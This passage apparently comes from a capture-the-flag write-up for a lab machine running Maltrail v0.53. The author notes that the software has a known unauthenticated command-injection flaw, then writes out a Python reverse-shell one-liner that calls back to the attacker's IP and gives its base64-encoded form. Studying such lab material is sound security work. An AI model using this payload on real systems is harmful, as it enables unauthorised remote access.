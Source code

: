 Then if we were to browse to the following URL we'd see the main page of a service called **Maltrail** using version **v0.53**

```
http://10.10.11.224:55555/Calico
```


![Maltrail](/assets/img/Sau/Sau_02.png)


So when looking into this service version it also contains a [publicly known vulnerability](https://packetstormsecurity.com/files/174221/Maltrail-0.53-Unauthenticated-Command-Injection.html) in this case an unauthenticated remote code execution. This vulnerability basically allows for injecting arbitary OS commands by supplying a **;** symbol before your linux shell commands.  So first of all i'll prepare my shell command. My usually venue is to base64 encode a bash reverse shell. This however did not work on this box so i tried a few different shells. The python version did work. I decided to base64 encode t

```
echo -n "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.67",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")" | base64

```

After base64 encoding this payload we'd get the following string.
```
cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjY3Iiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw==
```

